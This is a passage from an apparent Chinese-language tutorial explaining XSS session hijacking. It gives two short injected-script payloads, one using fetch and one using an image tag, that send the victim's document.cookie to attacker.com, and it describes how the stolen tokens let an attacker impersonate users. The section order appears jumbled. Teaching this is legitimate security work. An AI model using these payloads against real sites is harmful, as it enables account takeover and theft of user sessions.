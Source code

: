 #### 步骤 1：注入恶意脚本

攻击者通过 XSS 漏洞在目标网站上注入恶意 JavaScript 代码。例如：

```html
<script>
  fetch('https://attacker.com/steal', {
    method: 'POST',
    headers: {
      'Content-Type': 'application/json'
    },
    body: JSON.stringify({cookie: document.cookie})
  });
</script>
```

#### 步骤 2：收集敏感信息

上述脚本执行以下操作：

- 使用 `document.cookie` 获取用户的 Cookie 信息。
- 使用 `fetch` API 将 Cookie 信息发送到攻击者的服务器（`https://attacker.com/steal`）。

#### 步骤 3：接收和处理数据

攻击者的服务器接收到包含用户 Cookie 的请求后，可以：

- 解析 Cookie 中的会话令牌。
- 使用该会话令牌冒充用户进行操作，如访问用户账户、修改信息、进行交易等。

### 3. 具体示例

假设目标网站有一个 XSS 漏洞，攻击者可以注入以下脚本：

```html
<script>
  var img = document.createElement('img');
  img.src = 'https://attacker.com/steal?cookie=' + encodeURIComponent(document.cookie);
  document.body.appendChild(img);
</script>
```

**说明**：
- 该脚本创建了一个隐藏的图片标签，并将用户的 Cookie 作为查询参数发送到攻击者的服务器。
- 攻击者的服务器接收到请求后，可以记录用户的 Cookie 信息。


# 窃取用户会话

### 1. 理解会话劫持

**会话劫持**是指攻击者通过获取用户的会话标识符（如会话 Cookie 或会话令牌），从而冒充用户进行操作。会话标识符通常存储在用户的 Cookie 中，浏览器在每次请求时都会自动将其发送到服务器，以维持用户的会话状态。

### 2. XSS 劫持用户会话的过程
